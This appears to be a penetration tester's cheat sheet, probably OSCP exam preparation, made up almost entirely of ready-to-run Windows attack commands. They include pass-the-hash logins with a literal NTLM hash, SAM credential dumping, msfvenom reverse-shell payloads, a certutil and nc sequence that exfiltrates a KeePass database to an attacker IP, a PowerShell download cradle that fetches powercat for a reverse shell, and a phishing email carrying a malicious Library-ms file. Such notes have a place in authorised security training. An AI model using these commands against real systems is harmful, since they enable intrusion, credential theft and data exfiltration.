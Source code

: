 ### crackmapexec
```
proxychains4 crackmapexec smb/rdp <ip> -u <user> -p <password> (User proxychains if needed. Pwn means admin)
```
### SNMP
```
snmpbulkwalk -c public -v2c 192.168.235.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
### Impacket
```
proxychains4 impacket-psexec tech.com/user:'password'@IP
impacket-secretsdump -sam sam -system system -security security local (just sam and system works too)
Proxychains4 impacket-psexec "Administrator":@ip -hashes aad3b435b51404eeaad3b435b51404ee:f26c0186c8ffcceb01fd2d7549e7ac1f
```
### evil-winrm
```
proxychains4 evil-winrm -i <IP> -u mario -H <hash>
download SAM /home/kali/Desktop/OSCP/SAM
```
### msfvenom
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP LPORT=4444 -f exe > reverse.exe (Staged)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f dll -o rev.dll
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.155 LPORT=4445 -f exe -o shell.exe
```
### Keepass (KDBX)
```
Use the keepass2 application
```
### nc to download
```
certutil -urlcache -f http://192.168.45.155:444/nc.exe C:\Users\User\Documents\nc.exe
cmd /c 'nc.exe IP 4442 -w 3 < Database.kdbx'
nc -lvp > Database.kdbx
```
### Windows library files with email
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=9001 --auth=anonymous --root /home/kali/Desktop/
Create a shortcut within windows: powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155:444/powercat.ps1'); powercat -c 192.168.45.155 -p 4441 -e powershell"
Make sure to have powercat in the webdav
Create a config.Library-ms file in webdav
sudo swaks -t user@domain.com --from mail@domain.com --attach @config.Library-ms --server 192.168.217.189 --body @body.txt --header "Subject:staging script" --suppress-data -ap
```
### Directory buster
```
gobuster dir -u http://IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
feroxbuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://IP/api
```
### Curl
```
curl -i http://IP/api/heartbeat
```
### Git
```
```